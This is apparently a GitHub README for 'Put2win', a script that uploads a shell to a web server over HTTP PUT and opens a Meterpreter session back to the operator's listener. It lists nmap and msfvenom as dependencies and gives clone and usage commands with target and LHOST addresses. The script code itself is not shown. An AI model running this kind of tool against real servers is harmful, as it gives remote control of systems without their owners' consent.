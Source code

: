 # Put2win
Script to automatize shell upload by PUT HTTP method to get meterpreter

[![asciicast](https://asciinema.org/a/204195.png)](https://asciinema.org/a/204195)

# Dependencies
It's necessary to have installed nmap and msfvenom tools for a correct operation

# Installation
```
git clone https://github.com/sysdevploit/put2win
cd put2win
chmod +x put2win.sh
```

# Usage
```
This script automatize shell upload by PUT HTTP method to get meterpreter.

Usage:
 ./Put2win.sh -t TARGET [-p PORT] -u URL_PATH -l LHOST

Examples:
 - ./Put2win.sh -t 192.168.1.80 -u /uploads -l 192.168.1.10
 - ./Put2win.sh -t 192.168.1.80 -p 443 -u /uploads -l 192.168.1.10
 ```
 
# Contact
Telegram: @devploit

Twitter: https://www.twitter.com/devploit
